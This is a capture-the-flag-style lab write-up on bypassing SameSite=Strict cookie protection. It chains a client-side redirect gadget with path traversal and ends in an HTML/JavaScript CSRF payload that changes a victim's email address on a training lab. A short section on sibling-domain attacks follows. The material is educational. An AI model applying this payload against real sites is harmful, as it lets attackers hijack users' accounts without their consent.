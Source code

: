 ```html
```
### Bypassing SameSite restrictions using on-site gadgets

If a cookie is set with the SameSite=Strict attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.

One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters. For some examples, see our materials on DOM-based open redirection.

### Lab: SameSite Strict bypass via client-side redirect
This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter 

In this challenge, after submitting a comment, the website redirects users to the post, with the redirect URL being controllable. This behavior is defined in the commentConfirmationRedirect.js file: `commentConfirmationRedirect.js` 
```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
We could try this vul by this request:
```
GET /post/comment/confirmation?postId=../../my-account HTTP/2
```
We can leverage this by crafting a request that changes the email address:
```
GET /post/comment/confirmation?postId=../../my-account/change-email?email=b@a%26submit=1 HTTP/2
```
Final payload:
```html
<script>
window.location = "https://0a38009404e9bee382ce1a8900eb0095.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=long@long%26submit=1"
</script>
```
### Bypassing SameSite restrictions via vulnerable sibling domains

Whether you're testing someone else's website or trying to secure your own, it's essential to keep in mind that a request can still be same-site even if it's issued cross-origin.

Make sure you thoroughly audit all of the available attack surface, including any sibling domains. In particular, vulnerabilities that enable you to elicit an arbitrary secondary request, such as XSS, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks.
